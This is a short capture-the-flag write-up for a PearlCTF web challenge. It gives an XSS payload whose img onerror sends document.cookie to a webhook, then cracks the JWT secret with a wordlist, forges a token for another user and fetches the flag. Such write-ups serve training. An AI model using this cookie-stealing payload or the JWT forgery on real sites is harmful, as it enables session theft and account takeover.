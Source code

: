 # web/learn HTTP
## get sample of token
```js
webhook = "??"
script = `<img src=x onerror="fetch('${webhook}?'+document.cookie)" />`
payload = "HTTP/1.1 200 OK\r\nContent-Type: text/html\r\nContent-Length: "+script.length+"\r\n\r\n"+script

const urlencoded = new URLSearchParams();
urlencoded.append("body", payload);

fetch("https://learn-http.ctf.pearlctf.in/check", {
  method: "POST",
  headers: {"Content-Type":"application/x-www-form-urlencoded"},
  body: urlencoded,
})
```
## crack jwt
```shell
% jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzA5OTMzODUzfQ.aDP5hVVQQN2uFQL15oTBG1B83j8MnQu0f7IRxodKm24 -d wordlists/rockyou.txt 

SECRET FOUND: banana
Time taken (sec): 0.123
Total attempts: 20000
```
## sign new token as { "id": 2 } then get the flag!
```shell
biu2 ~ % curl 'https://learn-http.ctf.pearlctf.in/flag' \
-H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNzA5OTMzODUzfQ.QknwFnkloH7UHqCnVs8WPraD0hL_74qOobLXUzI18co'
```
`pearl{c4nt_s3nd_th3_resP0n53_w1th0ut_Sani7iz1ng}`